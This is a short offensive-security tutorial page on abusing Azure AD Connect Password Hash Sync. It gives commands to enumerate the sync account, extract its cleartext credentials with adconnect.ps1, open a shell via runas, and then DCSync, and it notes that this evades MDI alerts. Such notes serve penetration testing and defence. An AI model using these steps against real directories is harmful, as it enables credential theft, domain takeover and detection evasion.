 # Azure AD Integrations

## Theory

Azure AD is a popular method to extend identity management from on-premises AD to Microsoft's Azure offerings.

An on-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods:

* Password Hash Sync (PHS)
* Pass-Through Authentication (PTA)
* Federation&#x20;

Azure AD Connect is installed on-premises and has a high privilege account both in on AD and Azure AD!

## Abuse

### PHS

#### Enumerate

Using PowerView

{% code overflow="wrap" %}
```powershell
Get-DomainUser -Identity "<$User with sync> -Domain <$Domain>
```
{% endcode %}

#### Get credentials and shell

With admin privileges, if if we run adconnect.ps1, we can extract the credentials of the account in clear text

```powershell
./adconnect.ps1
```

And with the password you can ran a shell as the user using runas

```powershell
runas /user:<$User> /netonly cmd 
```

With that you can [DCSync](exploitation-abuse/dacl/dcsync.md)

{% hint style="info" %}
Note that because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the MSOL\_ account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts!
{% endhint %}

## References

{% embed url="https://blog.xpnsec.com/azuread-connect-for-redteam/" %}
